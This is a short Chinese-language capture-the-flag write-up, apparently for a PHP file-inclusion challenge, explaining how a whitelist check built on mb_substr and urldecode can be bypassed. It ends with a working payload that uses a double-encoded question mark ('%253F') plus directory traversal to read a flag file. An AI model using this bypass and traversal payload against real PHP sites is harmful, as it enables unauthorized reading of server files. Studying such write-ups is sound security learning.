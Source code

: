 把代码拉出来跑一下，

```
 $_page = mb_substr(

                $page,

                0,

                mb_strpos($page . '?', '?')

            );

 if (in_array($_page, $whitelist)) {

                return true;

            }
```

可以发现只要$page里面没有?，mb_substr()就不会截取字符串，且mb_substr（）返回0.

```
$_page = urldecode($page);

            $_page = mb_substr(

                $_page,

                0,

                mb_strpos($_page . '?', '?')

            );

            if (in_array($_page, $whitelist)) {

                return true;

            }
```

第二段：

这里 $page经过了urldecode()解码赋值给了 $_page，需要注意的是，这里和第一段是不一样的。mb_strpos()和mb_substr()都是处理的 $_page，而非第一段的 $page。这里就是可利用点。我们要让这里出现？，就会返回true从而进入到文件包含中。

![微信图片_202101291747004](https://tcakalr.gitee.io/tc/微信图片_202101291747004.png)

***PHP中$_GET、$_POST、$_REQUEST这类函数在提取参数值时会URL解码一次*** ，再利用urldecode（）再解码一次就可以返回true了。

所以我们就可以构造payload了：

```
/index.php?file=source.php%253F/../../../../ffffllllaaaagggg
```
